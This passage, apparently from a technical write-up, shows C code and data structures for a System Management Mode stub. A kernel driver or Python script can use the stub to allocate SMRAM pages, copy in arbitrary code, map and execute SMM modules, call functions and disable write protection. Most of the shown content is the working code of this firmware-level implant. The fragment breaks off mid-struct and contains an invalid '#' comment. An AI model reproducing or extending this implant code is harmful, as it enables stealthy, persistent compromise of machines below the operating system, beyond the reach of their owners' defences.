 ```

    UINT64 dispatch = 0;
    EFI_STATUS ret = 0;

    if (!c->SMST->SmmAllocatePages(__AllocateAnyPages, __EfiRuntimeServicesCode, 1, &dispatch))
    {
      c->DispatchFunction = dispatch;
      unsigned char* destination = (unsigned char*)c->DispatchFunction;
      for (int len = 0; len < c->CommBuffer->size; len++)
        destination[len] = ((unsigned char*)c->CommBuffer->source)[len];

      c->CommBuffer->ret = 0x0;

      return -1;
    }
    else
    {
      c->CommBuffer->ret = 0xEE;
    }
  }
  return -1;
}
```

The `CONFIG` struct provides a way for a kernel driver (or Python script) to interact with the code in SMM. It also passes a pointer to SMST, allowing the stub to use the native edk2 function to allocate pages.

```
typedef enum _ACTION {
  COPY_RAW_MEM = 0x1,
  ALLOCATE_COPY_DATA,
  ALLOCATE_COPY_EXECUTE,
  MAP_SMM_MODULE,
  UNMAP_SMM_MODULE,
  SMM_MODULE_EXEC,
  CALL,
  DISABLE_WP,
  ENABLE_WP,
  RESERVED1,
  RESERVED2,
  RESERVED3,
  PING = 0xF
} ACTION;

#pragma pack(push, 1)
typedef struct _COMBUFF {
  void* source;
  void* dest;
  unsigned int size;
  unsigned long long status;
  unsigned int action;
} COMBUFF, * PCOMBUFF;
#pragma pack(pop)

#pragma pack(push, 1)
typedef struct _CONFIG {
  PCOMBUFF CommBuffer; # (say, 0x700)
  __EFI_SMM_SYSTEM_TABLE2* SMST;
  UINT64 SMRT;
  UINT64 SMBase;
  UINT64 DispatchFunction;
  UINT64 MemCpy;
  UINT64 NativeExecute;
```